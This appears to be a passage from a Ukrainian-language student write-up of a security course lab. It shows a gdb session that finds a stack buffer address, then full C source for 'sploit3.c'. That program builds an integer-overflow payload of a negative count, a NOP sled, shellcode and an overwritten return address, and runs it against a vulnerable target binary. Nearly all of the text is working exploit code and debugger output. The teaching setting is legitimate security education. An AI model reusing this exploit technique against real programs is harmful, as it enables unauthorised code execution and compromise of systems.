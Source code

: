 _‌Лістинг 5: sploit3.c_

```bash
user@vm-cs155:~/proj1/sploits$ gdb -e sploit3 -s /tmp/target3
(gdb) catch exec 
(gdb) r
(gdb) b foo
(gdb) c
(gdb) x buf
0xbfff6210: 0x00000000
```

_‌Лістинг 6: gdb_

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target3"

int main(void)
{
    char buf[20004];
    char *count;
    int i;
    int addr;

    addr = 0xbfff6210;
    count = "-2147482647";
    for(i = 0; i < 20032; i++) {
      if(i < strlen(count)) {
        *(buf + i) = count[i];
      } else if(i < (strlen(count) + 1)) {
        *(buf + i) = ',';
      } else if(i < (20000 + strlen(count) + 1 - strlen(shellcode))) {
        *(buf + i) = '\x90';
      } else if(i < (20000 + strlen(count) + 1)) {
        *(buf + i) = shellcode[i - 20000 - strlen(count) - 1 + strlen(shellcode)];
      } else if(i < (20004 + strlen(count) + 1)) {
        *(buf + i) = '\x90';
      } else if(i < (20008 + strlen(count) + 1)) {
         *(buf + i) = addr >> ((i - 20000 - strlen(count) - 1) * 8);
      }
    }

    char *args[] = { TARGET, buf, NULL };
    char *env[] = { NULL };

    execve(TARGET, args, env);
    fprintf(stderr, "execve failed.\n");

    return 0;
}
```

_‌Лістинг 7: sploit3.c для виконання целочисельного переповнення_

